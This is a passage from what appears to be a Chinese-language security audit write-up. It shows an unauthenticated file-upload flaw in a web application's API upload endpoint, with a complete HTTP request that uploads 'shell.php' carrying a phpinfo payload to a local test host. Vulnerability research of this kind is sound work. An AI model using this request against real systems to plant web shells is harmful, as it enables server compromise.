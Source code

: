修改 name 为 file 即可，并且为测试是未授权将 Cookie 删除，这里虽然只返回了文件名但根据代码的审计发现其路径依旧为 /images

```plain
POST /index.php?module=api&action=user&m=upload HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------323553422223467167571808530788
Content-Length: 240
Origin: http://127.0.0.1:8080
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1


-----------------------------323553422223467167571808530788
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type:image/php

<?php phpinfo(); ?>
-----------------------------323553422223467167571808530788--
```

[![](assets/1710900899-98e3231451ae0ede6e96cd43f9a0ab89.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301142202-04afdac4-d794-1.png)
